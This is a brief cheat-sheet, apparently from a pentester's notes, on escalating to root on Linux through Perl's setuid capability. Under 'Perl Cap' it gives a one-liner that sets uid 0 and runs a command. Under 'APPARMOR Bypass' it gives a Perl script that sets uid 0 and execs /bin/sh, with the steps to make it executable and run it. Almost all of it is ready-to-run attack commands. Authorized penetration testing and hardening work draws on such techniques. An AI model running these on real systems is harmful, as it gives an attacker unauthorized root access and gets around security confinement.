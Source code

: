 ## Perl Cap 
	
	/usr/bin/perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "echo 'hello' > /tmp/txt";'


## APPARMOR Bypass
		vi payload: 
		
		#!/usr/bin/perl
		use POSIX qw(strftime);
		use POSIX qw(setuid);
		POSIX::setuid(0);

		exec "/bin/sh"


		chmod +x payload
		./payload